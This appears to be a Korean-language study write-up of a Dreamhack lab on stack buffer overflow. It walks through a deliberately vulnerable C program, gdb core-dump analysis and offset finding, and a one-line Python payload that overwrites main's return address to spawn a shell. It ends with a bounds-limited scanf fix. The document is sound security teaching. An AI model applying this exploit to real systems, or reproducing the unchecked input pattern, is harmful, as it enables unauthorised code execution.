

# [Dreamhack] Return Address Overwrite

---

## Exploit Tech: Return Address Overwrite

### 소스 코드

- `setvbf(Fiel *stream, char *buffer, int mode, size_t size);`
    1. 첫 번째 `setvbuf` 호출
        - `stdin` 스트림에 대해 버퍼링 설정
        - 두 번째 인수는 ‘0’ 또는 `null` 로 사용자 정의 버퍼를 제공하지 않음
        - 세 번째 인수는 ‘2’ 또는 `_IONBF` 로 버퍼링을 사용하지 않음
        - 네 번째 인수는 ‘0’으로, 버퍼 크기는 의미 없음
    - 결과적으로 `init` 함수는 표준 입력 및 출력 스트림에 대해 버퍼링을 비활성화하여, 입력과 출력이 즉시 처리 되도록 함

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

## 분석

### 취약점 분석

- 프로그램의 취약점은 `scanf("%s", buf)` 에 있음
- `scanf` 함수의 포맷 스트링 중 하나인 `%s` 는 문자열을 입력받을 때 사용하는 것으로, 입력의 길이를 제한하지 않으며, 공백 문자인 띄어쓰기, 탭, 개행 문자 등이 들어올 때까지 계속 입력을 받는다는 특징이 있음
- 이런 특징으로 인해, 악의적으로 버퍼의 크기보다 큰 데이터를 입력하면 오버플로우가 발생
- 따라서 `scanf` 에 `%s` 포맷 스트링은 절대로 사용하지 말아야 하며, 정확히 n개의 문자만 입력받는 `"%[n]s"` 의 형태로 사용해야 함
- 이외에도, C/C++의 표준 함수 중, 버퍼를 다루면서 길이를 입력하지 않는 함수들은 대부분 위험함
    - 대표적으로, `strcpy` , `strcat` , `spritnf` 가 있음
    - 코드를 작성할 때는 버퍼의 크기를 같이 입력하는 `strncpy` , `strncat` , `snprintf` , `fgets`, `memcpy` 등을 사용하는 것이 바람직
- 이 예제에서는 크기가 `0x28` 인 버퍼에 `scanf("%s", buf)` 로 입력을 받으므로, 입력을 길게 준다면 버퍼 오버플로우를 발생시켜 `main` 함수의 반환주소를 덮을 수 있음



### 트리거

- 취약점을 발현시킨다는 의미에서 트리거(trigger)라고 표현
- 취약점을 트리거하기 위해 `"A"` 64개를 입력

```c
$ ./rao
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    1828520 segmentation fault (core dumped)  ./rao
```

- 짧은 입력을 줬을 때와 달리, `segmentation fault` 라는 에러가 출력되며, 프로그램이 비정상적으로 종료됨
- 프로그램이 잘못된 메모리 주소에 접근했다는 의미이며, 프로그램에 버그가 발생했다는 신호

뒤의 (core dumped)는 코어파일(core)을 생성했다는 것으로, 프로그램이 비정상 종료됐을 때, 디버깅을 돕기 위해 운영체제가 생성해주는 것입니다.

*🚩 Ubuntu 20.04 버전 이상은 기본적으로* `/var/lib/apport/coredump` 디렉토리에 코어 파일을 생성합니다.


- 코어 파일 크기 제한 해제

```c
$ ulimit -c unlimited
```

### 코어 파일 분석

- gdb에는 코어 파일을 분석하는 기능이 존재
- 이를 이용하여 입력이 스택에 어떻게 저장됐는지 살펴볼 수 있음

```c
$ gdb rao -c core.1828876
...
Could not check ASLR: Couldn't get personality
Core was generated by `./rao'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000000400729 in main ()
...
pwndbg>
```


- 컨텍스트에서 디스어셈블된 코드와 스택을 관찰하면, 프로그램이 `main` 함수에서 반환하려고 하는데, 스택 최상단에 저장된 값이 입력값의 일부인 `0x4141414141414141('AAAAAAAA')` 라는 것을 알 수 있음
- 이는 실행가능한 메모리의 주소가 아니므로 세그멘테이션 폴트가 발생하는 것임
- 이 값이 원하는 코드 주소가 되도록 적절한 입력을 주면, `main` 함수에서 반환될 때, 원하는 코드가 실행되도록 조작할 수 있을 것임

```c
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
 ► 0x400729 <main+65>    ret    <0x4141414141414141>
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rsp 0x7fffc86322f8 ◂— 'AAAAAAAA'
01:0008│     0x7fffc8632300 ◂— 0x0
02:0010│     0x7fffc8632308 —▸ 0x4006e8 (main) ◂— push rbp
03:0018│     0x7fffc8632310 ◂— 0x100000000
04:0020│     0x7fffc8632318 —▸ 0x7fffc8632408 —▸ 0x7fffc86326f0 ◂— 0x434c006f61722f2e /* './rao' */
05:0028│     0x7fffc8632320 ◂— 0x0
06:0030│     0x7fffc8632328 ◂— 0x14b87e10e2771087
07:0038│     0x7fffc8632330 —▸ 0x7fffc8632408 —▸ 0x7fffc86326f0 ◂— 0x434c006f61722f2e /* './rao' */
```

## 익스플로잇

### 스택 프레임 구조 파악

---

- 스택 버퍼에 오버플로우를 발생시켜서 반환주소를 덮으려면, 해당 버퍼가 스택 프레임의 어디에 위치하는지 조사해야 함
- 주목해서 봐야할 코드는 `scanf` 에 인자를 전달하는 부분임
- **scanf() 함수를 호출하는 어셈블리 코드**

```c
pwndbg> nearpc
   0x400706             call   printf@plt 

   0x40070b             lea    rax, [rbp - 0x30]
   0x40070f             mov    rsi, rax
   0x400712             lea    rdi, [rip + 0xab]
   0x400719             mov    eax, 0
 ► 0x40071e             call   __isoc99_scanf@plt <__isoc99_scanf @plt>
        format: 0x4007c4 ◂— 0x3b031b0100007325 /* '%s' */
        vararg: 0x7fffffffe2e0 ◂— 0x0
...
pwndbg> x/s 0x4007c4
0x4007c4:       "%s"__isoc99_scanf
```

- 이를 의사 코드로 표현하면 다음과 같음

```c
scanf("%s", (rbp-0x30));
```

- 즉, 오버플로우를 발생시킬 버퍼는 `rbp-0x30` 에 위치함
- 스택 프레임의 구조를 떠올려 보면, `rbp`에 스택 프레임 포인터(SFP)가 저장되고, `rbp+0x8` 에는 반환주소가 저장됨
- 이를 바탕으로 스택 프레임을 그려보면 다음그림과 같음


- 입력할 버퍼와 반환 주소 사이에 `0x38` 만큼의 거리가 있으므로, 그만큼을 쓰레기 값(dummy data)으로 채우고, 실행하고자 하는 코드의 주소를 입력하면 실행 흐름을 조작할 수 있음

### get_shell() 주소 확인

- 해당 예제에서는 셸을 실행해주는 `get_shell()` 함수가 있으므로, 함수의 주소로 `main` 함수의 반환 주소를 덮어서 셸을 획득 할 수 있음
- `get_shell()` 함수

```c
void get_shell(){
   char *cmd = "/bin/sh";
   char *args[] = {cmd, NULL};

   execve(cmd, args, NULL);
}
```

- `get_shell()` 의 주소를 찾기 위해 gdb를 사용
    - `get_shell()` 의 주소가 `0x4006aa` 임을 확인함

```c
$ gdb rao -q
pwndbg> print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
pwndbg> quit
```

### 페이로드 구성

- 시스템 해킹에서 페이로드는 공격을 위해 프로그램에 전달하는 데이터를 의미
- 앞에서 파악한 정보를 바탕으로 다음 그림과 같은 페이로드를 구성할 수 있음


### 엔디언 적용

- 구성한 페이로드는 적절한 엔디언(Endian)을 적용해서 프로그램에 전달해야 함
- 엔디언은 메모리에서 데이터가 정렬되는 방식으로 주로 리틀 엔디언과 빅 엔디언이 사용됨
- 리틀 엔디언에서는 데이터의 Most Siginifcant Bytes(MSB; 가장 왼쪽의 바이트)가 가장 높은 주소에 저장되고, 빅 엔디언에서는 데이터의 MSB가 가장 낮은 주소에 저장됨


```c
// Name: endian.c
// Compile: gcc -o endian endian.c

#include <stdio.h>
int main() {
  unsigned long long n = 0x4006aa;

  printf("Low <-----------------------> High\n");

  for (int i = 0; i < 8; i++) printf("0x%hhx ", *((unsigned char*)(&n) + i));

  return 0;
}
```

```c
$ ./endian
Low <-----------------------> High
0xaa 0x6 0x40 0x0 0x0 0x0 0x0 0x0
```

### 익스플로잇

- 엔디언을 적용하여 페이로드를 작성하고, 이를 다음의 커맨드로 rao에 전달하면 셸을 획득할 수 있음
- 이는 파이썬으로 출력한 페이로드를 rao의 입력으로 전달함
- 익스플로잇 코드
  
    ```c
    $ (python -c "import sys;sys.stdout.buffer.write(b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00')";cat)| ./rao
    $ id
    id
    uid=1000(rao) gid=1000(rao) groups=1000(rao)
    ```
    

## 취약점 패치

### 취약점 패치

- rao
    - 해당 취약점을 패치하기 위해 C언어에서 자주 사용되는 문자열 입력 함수와 패턴들을 살펴봐야함
    - `scanf("%39s", buf)`

